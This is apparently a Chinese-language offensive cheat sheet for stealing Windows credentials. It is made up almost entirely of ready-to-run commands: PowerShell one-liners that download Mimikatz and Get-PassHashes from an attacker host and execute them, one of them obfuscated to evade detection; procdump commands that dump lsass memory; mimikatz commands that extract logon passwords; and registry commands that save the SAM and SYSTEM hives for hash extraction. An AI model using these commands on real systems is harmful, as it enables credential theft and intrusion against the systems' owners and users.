 #### Powershell远程加载mimikatz脚本

```shell
powershell IEX (New-ObjectNet.WebClient).DownloadString('http://192.168.81.154:8000/Invoke-Mimikatz.ps1');Invoke-Mimikatz –DumpCreds

powershell IEX (New-ObjectNet.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds
```

#### powershell混淆

```
powershell -c "('IEX '+'(Ne'+'w-O'+'bject Ne'+'t.W'+'ebClien'+'t).Do'+'wnloadS'+'trin'+'g'+'('+'1vchttp://'+'192.168.81'+'.154:8000/'+'Inv'+'oke-Mimik'+'a'+'tz.'+'ps11v'+'c)'+';'+'I'+'nvoke-Mimika'+'tz').REplaCE('1vc',[STRing][CHAR]39)|IeX"
```

#### Get-Hashes

Powershell 加载 Get-PassHashes 脚本：

```
powershell IEX(new-objectnet.webclient).downloadstring('http://192.168.81.154:8000/Get-PassHashes.ps1');Get-PassHashes
```

#### Procdump+Mimikatz

`Procdump`导出`lsass`进程（管理员权限）

```
For 32bits：
procdump.exe -accepteula -ma lsass.exe lsass.dmp

For 64bits：
procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
```

使用`mimikatz`还原密码（放在靶机上，带着`lsass.dmp`文件）：

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
```

### 注册表导出Hash

```
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
```

#### Mimikatz

```
mimikatz.exe "lsadump::sam /system:system.hiv /sam:sam.hiv" "exit"
```
